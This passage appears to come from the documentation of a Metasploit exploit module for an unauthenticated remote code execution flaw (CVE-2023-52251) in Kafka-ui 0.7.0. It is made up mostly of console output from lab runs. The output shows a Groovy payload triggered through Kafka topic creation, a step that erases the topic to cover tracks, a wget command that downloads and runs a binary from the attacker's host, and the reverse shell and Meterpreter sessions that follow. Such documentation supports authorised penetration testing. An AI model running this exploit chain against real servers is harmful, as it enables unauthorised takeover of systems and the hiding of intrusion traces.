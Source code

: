 ```shell
[+] New topic created: 9nQbg
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[+] Successfully deleted topic 9nQbg.
[*] Command shell session 28 opened (192.168.201.8:4444 -> 192.168.201.25:49429) at 2024-01-20 18:44:52 +0000

uname -a
Linux 889a0c5cec88 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 Linux
id
uid=100(kafkaui) gid=101(kafkaui) groups=101(kafkaui)
```
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/linux/http/x64/meterpreter_reverse_tcp
```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[*] Command to run on remote host: wget -qO /tmp/LfMsMsUxX http://192.168.201.8:1981/Qw3rZo-yo18aYrvy_AQU-w; chmod +x /tmp/LfMsMsUxX; /tmp/LfMsMsUxX &
[*] Fetch Handler listening on 192.168.201.8:1981
[*] HTTP server started
[*] Adding resource /Qw3rZo-yo18aYrvy_AQU-w
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target appears to be vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
[+] New topic created: D9kH687
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[*] Client 192.168.201.25 requested /Qw3rZo-yo18aYrvy_AQU-w
[*] Sending payload to 192.168.201.25 (Wget)
[+] Successfully deleted topic D9kH687.
[*] Meterpreter session 29 opened (192.168.201.8:4444 -> 192.168.201.25:50355) at 2024-01-23 08:47:41 +0000

meterpreter > sysinfo
Computer     : 172.30.0.4
OS           :  (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: kafkaui
meterpreter >
```

## Limitations
No limitations.

